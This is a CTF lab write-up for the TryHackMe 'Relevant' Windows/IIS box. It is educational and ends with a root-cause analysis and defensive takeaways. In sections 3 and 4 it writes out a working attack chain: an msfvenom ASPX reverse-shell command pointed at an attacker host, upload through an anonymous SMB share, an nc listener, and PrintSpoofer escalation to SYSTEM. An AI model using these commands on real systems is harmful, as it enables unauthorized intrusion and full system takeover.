






# TryHackMe: Relevant — Writeup

**Category:** Windows/IIS Exploitation / Privilege Escalation
**Difficulty:** Medium
**Skills Demonstrated:** SMB Enumeration, Anonymous Share Exploitation, ASPX Reverse Shell Generation, Credential Extraction, SeImpersonatePrivilege Abuse (PrintSpoofer)

---

## Objective

Simulate a real-world Windows Server (IIS + SMB) target, exploit a misconfigured file share to gain code execution, and escalate from a low-privileged IIS application pool identity to `NT AUTHORITY\SYSTEM`.

---

## 1. Reconnaissance

```bash
nmap -Pn -sV -sC -p- -T5 10.112.147.192
```



**Key findings:**

| Port | Service |
|------|---------|
| 80/tcp, 49663/tcp | Microsoft IIS httpd 10.0 |
| 135/tcp | Microsoft Windows RPC |
| 139/445/tcp | SMB (Windows Server 2016) |
| 3389/tcp | RDP |

Two things stood out immediately: **IIS running on a non-standard high port (49663)** alongside the standard port 80, and the target hostname resolving to **`RELEVANT`** via RDP NTLM info. Follow-up SMB scripts confirmed **guest access was allowed** and **SMB message signing was disabled** — both signs of a loosely secured file-sharing configuration worth investigating.

---

## 2. Enumeration

### 2.1 SMB Share Discovery

```bash
smbclient -L //10.112.142.245
```

Alongside the standard administrative shares (`ADMIN$`, `C$`, `IPC$`), one **non-default share stood out: `nt4wrksv`**.

```bash
smbclient //10.112.142.245/nt4wrksv
```



Connected **without credentials** and found a `passwords.txt` file sitting in the share.

### 2.2 Credential Extraction

Downloaded and inspected the file:

```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG4wMjA2OTY5NjkhJCQk
```

Recognized the Base64 encoding pattern and decoded both entries, recovering plaintext credentials for two local accounts — **Bob** and **Bill**. *(Credential values withheld from this writeup per standard responsible-disclosure practice for lab material — the extraction technique is what matters.)*

### 2.3 Confirming Web Exposure of the Same Share

Interestingly, the same share content was also directly browsable over HTTP on the secondary IIS instance:

```
http://10.112.142.245:49663/nt4wrksv/passwords.txt
```

This confirmed the `nt4wrksv` SMB share was mapped as an **IIS virtual directory** — meaning anything written to it via SMB would also be directly web-accessible and, critically, capable of executing server-side code if uploaded with the right extension.

---

## 3. Exploitation

### 3.1 Generating an ASPX Reverse Shell

Since the share accepted anonymous **write** access and was served by IIS, an `.aspx` payload uploaded there would execute as the web application when requested:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.112.117.171 LPORT=1234 -f aspx > shell.aspx
```

### 3.2 Uploading and Triggering the Payload

```bash
smbclient //10.112.142.245/nt4wrksv
smb: \> put shell.aspx
```

Started a listener and requested the uploaded file's URL to trigger execution:

```bash
nc -lvnp 1234
```



Received a callback confirming code execution as `iis apppool\defaultapppool` — a low-privileged service account, but a solid initial foothold.

### 3.3 Locating the User Flag

Traversed the filesystem to enumerate local user directories:

```
cd C:/Users
dir
cd Bob
cd Desktop
type user.txt
```



✅ **User flag captured.**

---

## 4. Privilege Escalation

### 4.1 Identifying the Escalation Path

Checked the current shell's token privileges:

```
whoami /priv
```

**`SeImpersonatePrivilege`** was listed as **Enabled** — a well-known privilege escalation vector on Windows service accounts, exploitable via the Potato family of exploits (JuicyPotato, PrintSpoofer, RoguePotato, etc.), since a process holding this privilege can impersonate a SYSTEM-level token obtained through a spoofed named pipe connection.

### 4.2 Exploiting via PrintSpoofer

Downloaded the PrintSpoofer binary on the attacking machine and delivered it to the target via the same writable SMB share used earlier:

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
smbclient //10.112.145.227/nt4wrksv
smb: \> put PrintSpoofer64.exe
```

Executed it from the shell:

```
cd C:\inetpub\wwwroot\nt4wrksv
.\PrintSpoofer64.exe -i -c cmd
whoami
```



PrintSpoofer located the `SeImpersonatePrivilege`, abused the Windows Print Spooler named pipe to impersonate the SYSTEM token, and spawned an elevated `cmd.exe` — confirmed by `whoami` returning **`nt authority\system`**.

### 4.3 Capturing the Root Flag

```
cd C:\Users\Administrator\Desktop
type root.txt
```



✅ **Root flag captured.**

---

## 5. Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| Anonymous, world-writable SMB share (`nt4wrksv`) | Allowed unauthenticated file upload |
| Same share mapped as an executable IIS virtual directory | Turned a simple file upload into remote code execution |
| Plaintext (Base64-"obfuscated") credentials stored on the share | Unnecessary credential exposure, even though the exploit path didn't require them |
| IIS app pool identity granted `SeImpersonatePrivilege` | Enabled a well-documented, tool-assisted escalation to SYSTEM |

---

## 6. Key Takeaways

- **Anonymous SMB write access + a web-server-mapped directory is a critical combination** — either misconfiguration alone is concerning; together, they form a direct path to remote code execution.
- **Base64 is encoding, not encryption** — finding it used to "protect" credentials is itself a red flag, and a five-second decode fully defeats it.
- **`SeImpersonatePrivilege` should be treated as a near-guaranteed SYSTEM escalation on IIS/service accounts** — this privilege is enabled by default on many Windows service accounts, and the Potato-family exploits make abusing it almost mechanical. Checking `whoami /priv` should be one of the first things done after landing any Windows shell.
- **This was the most "real-world" box in the series so far** — it mirrors an actual internal network engagement: reconnaissance revealing a forgotten file share, credential/config hygiene failures, and a standard token-impersonation privilege escalation. This is closer to what a genuine internal pentest looks like than a single CVE exploit.

---

*Room: [TryHackMe — Relevant](https://tryhackme.com/room/relevant)*
